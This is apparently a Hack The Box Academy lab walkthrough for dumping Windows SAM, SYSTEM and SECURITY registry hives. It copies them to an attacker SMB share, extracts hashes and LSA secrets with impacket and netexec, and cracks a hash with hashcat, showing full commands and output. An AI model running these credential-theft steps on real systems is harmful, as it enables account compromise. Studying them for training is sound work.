



## Attacking SAM, SYSTEM, and SECURITY

1. rdp to the target machine.

```
xfreerdp /v:$target_ip /u:Bob /p:HTB_@cademy_stdnt!
```

output:
<p align="center">
  
</p>

2. open a second terminal and create a share with smbserver.

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/kali/htb/password-attacks/sam-system-security
```

3. use `reg.exe` to copy the registry hives.

```
PS C:\Windows\system32> reg.exe save hklm\sam C:\sam.save                                                                                      The operation completed successfully.                                                                                                          PS C:\Windows\system32> reg.exe save hklm\system C:\system.save                                                                                The operation completed successfully.                                                                                                          PS C:\Windows\system32> reg.exe save hklm\security C:\security.save                                                                            The operation completed successfully.
```

<p align="center">
  
</p>

4. move the hive copies to the smb share.

```
PS C:\Windows\system32> move C:\sam.save \\10.10.14.103\CompData
PS C:\Windows\system32> move C:\system.save \\10.10.14.103\CompData
PS C:\Windows\system32> move C:\security.save \\10.10.14.103\CompData
```

<p align="center">
  
</p>

5. use impacket's `secretsdump.py` to extract password hashes and other credentials from the saved windows registry hives, offline.

```
sudo python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

output:
```
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xd33955748b2d17d7b09c9cb2653dd0e8
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
jason:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
ITbackdoor:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
frontdesk:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
[*] NL$KM 
 0000   E4 FE 18 4B 25 46 81 18  BF 23 F5 A3 2A E8 36 97   ...K%F...#..*.6.
 0010   6B A4 92 B3 A4 32 DE B3  91 17 46 B8 EC 63 C4 51   k....2....F..c.Q
 0020   A7 0C 18 26 E9 14 5A A2  F3 42 1B 98 ED 0C BD 9A   ...&..Z..B......
 0030   0C 1A 1B EF AC B3 76 C5  90 FA 7B 56 CA 1B 48 8B   ......v...{V..H.
NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
[*] _SC_gupdate 
(Unknown User):Password123
[*] Cleaning up...
```

nt hashes:
```
Administrator:31d6cfe0d16ae931b73c59d7e0c089c0
...
bob:3c0e5d303ec84884ad5c3b7876a06ea6
jason:a3ecf31e65208382e23b3420a34208fc
ITbackdoor:c02478537b9727d391bc80011c2e2321
frontdesk:58a478135a93ac3bf058a5ea0e8fdb71
```

6. make a file for `ITbackdoor`'s  nt hash.

```
echo "c02478537b9727d391bc80011c2e2321" > it-backdoor-nt-hash
```

7. run hashcat to crack the nt hash.

```
sudo hashcat -m 1000 it-backdoor-nt-hash /usr/share/wordlists/rockyou.txt
```

8. use nxc to authenticate to the target machine over smb and dump its lsa secrets.

```
netexec smb $target_ip --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```

`--local-auth` - use a local account rather than domain auth.